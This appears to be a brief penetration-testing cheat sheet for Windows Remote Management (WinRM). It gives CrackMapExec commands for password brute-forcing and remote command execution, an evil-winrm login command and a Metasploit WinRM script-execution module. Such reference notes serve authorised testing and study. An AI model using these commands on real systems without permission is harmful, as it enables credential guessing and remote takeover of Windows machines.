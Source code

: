 WinRM (Windows Remote Management) give remote access to windows computers by HTTP(S)

# Tools

```
[!] Nmap display this banner, but it is winrm
Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

## Crackmapexec
```
crackmapexec winrm IP_ADDRESS -u USER / USER_LIST -p WORDLIST
crackmapexec winrm IP_ADDRESS -u USER -p PASS -x "COMMAND"
```

## Evil-winrm
```
evil-winrm.rb -u USER -p 'PASS' -i IP_ADDRESS
```

## Metasploit
```
exploit/windows/winrm/winrm_script_exec (if doesn't work set FORCE_VBS True)
```